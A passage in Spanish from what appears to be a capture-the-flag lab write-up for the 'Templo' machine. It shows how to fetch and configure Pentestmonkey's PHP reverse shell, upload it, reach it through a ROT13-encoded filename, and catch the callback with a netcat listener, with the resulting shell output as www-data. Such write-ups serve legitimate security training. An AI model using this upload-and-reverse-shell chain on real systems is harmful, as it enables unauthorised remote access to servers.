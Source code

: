 <br>

<h3 id="monkey">Utilizando Reverse Shell de Pentestmonkey</h3>

Como ya vimos que acepta archivos **PHP**, podemos cargar la **Reverse Shell de PHP** de **Pentestmonkey**:
* <a href="https://github.com/pentestmonkey/php-reverse-shell" target="_blank">Repositorio de pentestmonkey: php-reverse-shell</a>

Descárgalo con **wget**:
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php
```

Y modifícalo en esta parte:
```php
set_time_limit (0);
$VERSION = "1.0";
$ip = 'Tu_IP';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```
Ya solamente sube el archivo a la página web.

Debemos codificar a **ROT13** el nombre de la **Reverse Shell** que subimos, quedando de esta forma:
```bash
echo "php-reverse-shell" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
cuc-erirefr-furyy
```

Ahora, abre un listener con **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

Y utiliza ese nombre dentro del directorio `/uploads`:

<p align="center">
<img src="/assets/images/THL-writeup-templo/Captura15.png">
</p>

Observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.10.70] 53516
Linux TheHackersLabs-Templo 6.8.0-39-generic #39-Ubuntu SMP PREEMPT_DYNAMIC Fri Jul  5 21:49:14 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 05:52:48 up  7:32,  0 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```
Ya solo falta obtener una sesión interactiva, aunque esto es opcional para esta máquina.
